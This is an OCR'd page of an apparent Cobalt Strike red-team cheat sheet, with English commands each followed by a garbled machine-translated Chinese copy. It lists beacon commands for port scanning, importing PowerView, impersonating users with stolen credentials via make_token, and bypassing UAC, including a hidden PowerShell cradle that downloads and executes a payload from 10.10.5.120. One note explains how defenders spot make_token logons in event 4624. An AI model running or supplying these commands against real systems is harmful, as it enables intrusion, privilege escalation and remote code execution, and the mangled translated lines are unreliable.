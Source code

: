 portscan [pid] [arch] [targets] [ports] [arp | icmp | none] [max connections]＃indect portscan动作在另一个过程中
portscan [targets] [ports] [arp|icmp|none] [max connections]

# Powershell

＃ 电源外壳
# Import Powershell module

＃导入PowerShell模块
powershell-import C:\path\to\PowerView.ps1

powershell-import c：\ path \ to \ powerview.ps1
powershell &#x3C;just write powershell cmd here>

PowerShell＆＃x3C;只需在此处写PowerShell CMD>

# User impersonation

＃用户模仿
## Token generation with creds

##代币产生的信用
make_token [DOMAIN\user] [password] #Create token to impersonate a user in the network

make_token [domain \ user] [密码] #create代币在网络中模仿用户
ls \\computer_name\c$ # Try to use generated token to access C$ in a computer

ls \\ computer_name \ c $＃尝试使用生成的令牌访问计算机中的c $
rev2self # Stop using token generated with make_token

rev2self # Stop using token generated with make_token
## The use of make_token generates event 4624: An account was successfully logged on.  This event is very common in a Windows domain, but can be narrowed down by filtering on the Logon Type.  As mentioned above, it uses LOGON32_LOGON_NEW_CREDENTIALS which is type 9.

##使用make_token生成事件4624：成功登录了一个帐户。 此事件在Windows域中非常普遍，但是可以通过过滤登录类型来缩小范围。 如上所述，它使用logon32_logon_new_credentials，type 9。

# UAC Bypass

＃UAC旁路
elevate svc-exe &#x3C;listener>
elevate uac-token-duplication &#x3C;listener>

elevate uac-token-duplication &#x3C;listener>
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
